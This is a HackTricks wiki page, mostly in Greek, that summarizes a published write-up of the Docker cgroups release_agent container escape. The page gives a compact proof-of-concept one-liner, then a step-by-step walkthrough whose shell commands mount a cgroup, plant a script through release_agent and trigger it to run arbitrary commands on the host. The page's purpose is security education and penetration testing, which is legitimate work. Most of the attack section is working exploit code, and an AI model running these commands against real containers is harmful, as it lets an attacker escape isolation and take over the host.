 # Docker release\_agent cgroups escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


**Για περισσότερες λεπτομέρειες, ανατρέξτε στην** [**αρχική ανάρτηση του blog**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** Αυτό είναι απλώς μια περίληψη:

Original PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
Η απόδειξη της έννοιας (PoC) δείχνει μια μέθοδο εκμετάλλευσης των cgroups δημιουργώντας ένα αρχείο `release_agent` και ενεργοποιώντας την εκτέλεσή του για να εκτελέσει αυθαίρετες εντολές στον οικοδεσπότη του κοντέινερ. Ακολουθεί μια ανάλυση των βημάτων που εμπλέκονται:

1. **Προετοιμάστε το Περιβάλλον:**
* Δημιουργείται ένας φάκελος `/tmp/cgrp` για να χρησιμεύσει ως σημείο προσάρτησης για το cgroup.
* Ο ελεγκτής cgroup RDMA προσαρτάται σε αυτόν τον φάκελο. Σε περίπτωση απουσίας του ελεγκτή RDMA, προτείνεται η χρήση του ελεγκτή cgroup `memory` ως εναλλακτική.
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **Ρύθμιση του Παιδικού Cgroup:**
* Ένα παιδικό cgroup με όνομα "x" δημιουργείται μέσα στον προσαρτημένο κατάλογο cgroup.
* Οι ειδοποιήσεις ενεργοποιούνται για το cgroup "x" γράφοντας 1 στο αρχείο notify\_on\_release του.
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **Ρύθμιση του Release Agent:**
* Η διαδρομή του κοντέινερ στον οικοδεσπότη αποκτάται από το αρχείο /etc/mtab.
* Το αρχείο release\_agent του cgroup ρυθμίζεται στη συνέχεια για να εκτελεί ένα σενάριο με όνομα /cmd που βρίσκεται στη ληφθείσα διαδρομή του οικοδεσπότη.
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **Δημιουργία και Ρύθμιση του Script /cmd:**
* Το script /cmd δημιουργείται μέσα στο κοντέινερ και ρυθμίζεται να εκτελεί ps aux, ανακατευθύνοντας την έξοδο σε ένα αρχείο με όνομα /output στο κοντέινερ. Ο πλήρης δρόμος του /output στον κεντρικό υπολογιστή καθορίζεται.
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **Trigger the Attack:**
* Μια διαδικασία ξεκινά μέσα στο "x" child cgroup και τερματίζεται αμέσως.
* Αυτό ενεργοποιεί τον `release_agent` (το σενάριο /cmd), το οποίο εκτελεί ps aux στον host και γράφει την έξοδο στο /output μέσα στο container.
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
